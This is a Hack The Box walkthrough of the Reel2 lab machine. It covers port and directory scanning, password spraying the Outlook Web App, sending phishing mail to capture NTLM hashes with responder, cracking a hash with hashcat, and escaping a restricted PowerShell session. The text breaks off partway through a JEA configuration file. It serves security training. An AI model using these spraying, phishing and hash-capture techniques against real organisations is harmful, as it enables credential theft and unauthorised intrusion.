# Hack The Box - Reel2 10.10.10.210


Reel2 starts with collecting users' full name from a Social Networking Service, its purpose is to generate a new form of usernames and use them to spray a seasonal passwords toward Outlook Web App page. Inside the Outlook, a phishing attack is performed to steal users NTLM hash. Next, I'll have to bypass the command restriction in PowerShell. For the root part, I'll abuse the PowerShell custom function to read the root flag.

Let's go fishing!
# Reconnaissance
First thing first, I'll start with a full port scanning.

## Nmap
With `nmap` scan, there are 16 ports open, but I'll ignore the ports started with 60xx.

```text
root@iamf# ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
root@iamf# nmap -sC -sV -p$ports -oN scan/full-reel2 10.10.10.210
Nmap scan report for reel2.htb (10.10.10.210)
Host is up (0.41s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: 403 - Forbidden: Access is denied.
443/tcp  open  ssl/https?
|_ssl-date: 2021-03-13T09:12:24+00:00; +1s from scanner time.
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6001/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6002/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6004/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6005/tcp open  msrpc      Microsoft Windows RPC
6006/tcp open  msrpc      Microsoft Windows RPC
6007/tcp open  msrpc      Microsoft Windows RPC
6008/tcp open  msrpc      Microsoft Windows RPC
6010/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6011/tcp open  msrpc      Microsoft Windows RPC
6012/tcp open  msrpc      Microsoft Windows RPC
6017/tcp open  msrpc      Microsoft Windows RPC
6165/tcp open  msrpc      Microsoft Windows RPC
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.32)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.32
|_http-title: Welcome | Wallstant
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
```

## TCP 80 - Web

Visiting `10.10.10.210` via web browser only displays a 403 server error.


### Directory Scan

I did a `gobuster` scan but because it returns the same content length,  `gobuster` thinks it's not 'worth' to keep going except you provide a wildcard.
```text
root@iamf# gobuster dir -u http://10.10.10.210/ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o scan/gobuster-large-80
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.210/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/13 04:31:29 Starting gobuster in directory enumeration mode
===============================================================
Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.10.210/a2d4f584-8b54-4c6f-9fd1-cbe9bfcfef32 => 403 (Length: 1233). To continue please exclude the status code, the length or use the --wildcard switch
```

If this happens, I can just hide the length 1233 
```
root@iamf# gobuster dir -u http://10.10.10.210/ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o scan/gobuster-large-80 --wildcard switch --exclude-length 1233
```

It does work to discover several site, but I don't think there's an attack vector here. I decided to move to the next port.


## TCP 443 - Web HTTPS
In the https version, a self signed certificate reveals the machine's FQDN, `Reel2.htb.local`.


The page itself ends up by just showing the IIS default page.


### Directory scan

But this time `gobuster` found some paths.
```text
root@iamf# gobuster dir -k -u https://10.10.10.210/ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o scan/gobuster-large-443 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.210/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/13 04:47:22 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 158] [--> https://10.10.10.210/aspnet_client/]
/public               (Status: 302) [Size: 147] [--> https://10.10.10.210/owa]
/Public               (Status: 302) [Size: 147] [--> https://10.10.10.210/owa]
/exchange             (Status: 302) [Size: 147] [--> https://10.10.10.210/owa]
/rpc                  (Status: 401) [Size: 13]
```

Mostly these path are redirecting to `/owa`. I don't have any credential for now, so I'll leave this page and revisit it later.




## TCP 8080 - Web



I did a directory brute force but I decided not to put it here. It's an open source application that you can find it on Github. 

I looked for any kind of public exploits but couldn't find any. I'll just register it as normal user and do a site walkthrough.



In the "TRENDING - WORLDWIDE" section, there areseveral users which I think has username that follows the format of `firstname@lastname`.



While "POSTS" page shows two users talking about 'Summer' and '2020'.


It's too obvious, isn't it?




I'll collect all the usernames that shown in the "TRENDING - WORLDWIDE" section and their full names and I'll use them to perform a password spray.

# Initial Access

## Brute Force: Password Spraying

So I've collected the usernames
```text
root@iamf# cat usernames
cube
svensson
larsson
adams
trump
```
Also their full names and get it converted to other form of usernames that's commonly used.


```text
root@iamf# ./convert-name.py names
cube.cube
ccube
c.cube
cacube
cecube
jim.morgan
jmorgan
j.morgan
jamorgan
jemorgan
sven.svensson
ssvensson
s.svensson
sasvensson
sesvensson
lars.larsson
llarsson
l.larsson
lalarsson
lelarsson
jenny.adam
jadam
j.adam
jaadam
jeadam
```
I started it with the wallstant, but I don't get any different in the result.


I revisited the `/owa` page and perform spray again but according to the machine FQDN, this time I'll have to use `htb\username` format.

Here's the example of a login request.
```
POST /owa/auth.owa HTTP/1.1
Host: 10.10.10.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.210/owa/auth/logon.aspx?replaceCurrent=1&url=https%3a%2f%2f10.10.10.210%2fowa%2f
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Connection: close
Cookie: PHPSESSID=374oci38poiejn72md82l4o7nk; PBack=0
Upgrade-Insecure-Requests: 1

destination=https%3A%2F%2F10.10.10.210%2Fowa%2F&flags=0&forcedownlevel=0&trusted=0&username=htb%5C§brutehere§&password=§brute§&isUtf8=1
```
I'll start the attack and I captured one response that has different length from others, in other words it works!



I successfully logged in using `htb\s.svensson:Summer2020`


I used my strong intuition here without understanding the language :D

## Mail Phishing
So there's a book-like icon near the help icon.



When I clicked on that button and it brought up a smaller window (pop up window). It loads a global address.



I decided to create a new mail and select all of that address as the recipient.



I'll have my netcat listening on port 80 and put my IP address in the email body.



At first, my `netcat` listener didn't catch anything except a GET request that is performed by myself (I'm trying to phishing me :/). So I changed it to Python `http.server`. 

After some minutes, it receives a POST request that is originated from the box.



I get back to `netcat` and having it on listening mode again. This time `netcat` caught a POST request coming from WindowsPowerShell.
```text
root@iamf#  nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.210] 29174
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 6.3; en-US) WindowsPowerShell/5.1.14409.1018
Content-Type: application/x-www-form-urlencoded
Host: 10.10.14.16
Content-Length: 0
Connection: Keep-Alive
```

## A brief about stealing NTLM hash
`Invoke-WebRequest` command from PowerShell has capability to send a http request with a specified user account using `-Credential` option, it is like SUID binary in Linux, you run the command on behalf the binary's owner. 

Let's say my username is iamf, this example below will sends a request to http://example.com on behalf of the administrator account.

```powershell
PS:> $username = "administrator"
PS:> $password = ConvertTo-SecureString "password" -AsPlainText -Force
PS:> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
PS:> Invoke-WebRequest -uri 'http://example.com' -Method 'POST' -Credential $cred
```

Now, what if it doesn't specify the `-Credential`?  
The answer is: 
> It uses the **current user** credential as its default.


And here's comes the possibility of stealing a Windows credential from that request using Man-in-the middle tools called `responder`.

Why is that possible?
[The answer is](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1):



Example captured hash by `responder`


Recommended blog post:
https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html#enticing-authentication

## Shell as k.svensson

`responder` successfully captured a hash from user k.svensson (well it doesn't work at the first try)


And I have cracked the password using `hashcat`.
```
$ hashcat64.exe -m 5600 hash.txt password_list.txt -o
... <omitted>
K.SVENSSON::htb:b438ff094c66d37f:a3fab883835ea52fa66c3a162687d617:0101000000000000cfa44b8708a8d6018be92996a48fc51e000000000200060053004d0042000100160053004d0042002d0054004f004f004c004b00490054000400120073006d0062002e006c006f00630061006c000300280073006500720076006500720032003000300033002e0073006d0062002e006c006f00630061006c000500120073006d0062002e006c006f00630061006c000800300030000000000000000000000000400000f30a8a86a80b3907b30b04020168820a3c68ba0ee84f57830806cc76304bd8b80a001000000000000000000000000000000000000900200048005400540050002f00310030002e00310030002e00310034002e00310031000000000000000000:kittycat1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: K.SVENSSON::htb:b438ff094c66d37f:a3fab883835ea52fa6...000000
Time.Started.....: Sat Mar 13 22:13:10 2021 (0 secs)
Time.Estimated...: Sat Mar 13 22:13:10 2021 (0 secs)
... <omitted> ...

```

I was stuck in logging in, I know I can login remotely using evil-winrm with that creds


However the shell from evil-winrm just messing up.


I've a powershell installed in my Kali Linux. 
```
PS /root/reel2> $username = 'htb\k.svensson'           PS /root/reel2> $password = ConvertTo-SecureString 'kittycat1' -AsPlainText -Force           
PS /root/reel2> $creds = New-Object -typename System.Management.Automation.PSCredential -argumentlist $username,$password 
PS /root/reel2> $creds

UserName                           Password
--------                           --------
htb\k.svensson System.Security.SecureString
	PS /root/reel2> Enter-PSSession -Computer 10.10.10.210 -Credential $creds -Authentication Negotiate
[10.10.10.210]: PS>
```

I'm on restricted powershell



Using a script block(I think?) `&{ command }` can bypass the restriction



But this is slow af. I moved to `netcat` so I don't have to use the `&{}` again.



User flag is done here.


# Privilege Escalation

## Getting the Root Flag

Inpecting user jea_test_account using the `net` command. I found out that this user is still active


These are the files from k.svensson desktop, a configuration file for PS Session.

--> jea_test_account.psrc
```
{# ID used to uniquely identify this document
GUID = ‘08c0fdac-36ef-43b5–931f-68171c4c8200’# Author of this document
Author = ‘cube0x0’# Description of the functionality provided by these settings
# Description = ‘’# Company associated with this document
CompanyName = ‘Unknown’# Copyright statement for this document
Copyright = ‘© 2020 cube0x0. All rights reserved.’# Modules to import when applied to a session
# ModulesToImport = ‘MyCustomModule’, @{ ModuleName = ‘MyCustomModule’; ModuleVersion = ‘1.0.0.0’; GUID = ‘4d30d5f0-cb16–4898–812d-f20a6c596bdf’ }# Aliases to make visible when applied to a session
# VisibleAliases = ‘Item1’, ‘Item2’# Cmdlets to make visible when applied to a session
# VisibleCmdlets = ‘Invoke-Cmdlet1’, @{ Name = ‘Invoke-Cmdlet2’; Parameters = @{ Name = ‘Parameter1’; ValidateSet = ‘Item1’, ‘Item2’ }, @{ Name = ‘Parameter2’; ValidatePattern = ‘L*’ } }# Functions to make visible when applied to a session
# VisibleFunctions = ‘Invoke-Function1’, @{ Name = ‘Invoke-Function2’; Parameters = @{ Name = ‘Parameter1’; ValidateSet = ‘Item1’, ‘Item2’ }, @{ Name = ‘Parameter2’; ValidatePattern = ‘L*’ } }# External commands (scripts and applications) to make visible when applied to a session
# VisibleExternalCommands = ‘Item1’, ‘Item2’# Providers to make visible when applied to a session
# VisibleProviders = ‘Item1’, ‘Item2’# Scripts to run when applied to a session
# ScriptsToProcess = ‘C:\ConfigData\InitScript1.ps1’, ‘C:\ConfigData\InitScript2.ps1’# Aliases to be defined when applied to a session
# AliasDefinitions = @{ Name = ‘Alias1’; Value = ‘Invoke-Alias1’}, @{ Name = ‘Alias2’; Value = ‘Invoke-Alias2’}# Functions to define when applied to a session
FunctionDefinitions = @{
 ‘Name’ = ‘Check-File’
 ‘ScriptBlock’ = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like “D:\*” -or $Path -like “C:\ProgramData\*” ; if($check) {get-content $Path}} }# Variables to define when applied to a session
# VariableDefinitions = @{ Name = ‘Variable1’; Value = { ‘Dynamic’ + ‘InitialValue’ } }, @{ Name = ‘Variable2’; Value = ‘StaticInitialValue’ }# Environment variables to define when applied to a session
# EnvironmentVariables = @{ Variable1 = ‘Value1’; Variable2 = ‘Value2’ }# Type files (.ps1xml) to load when applied to a session
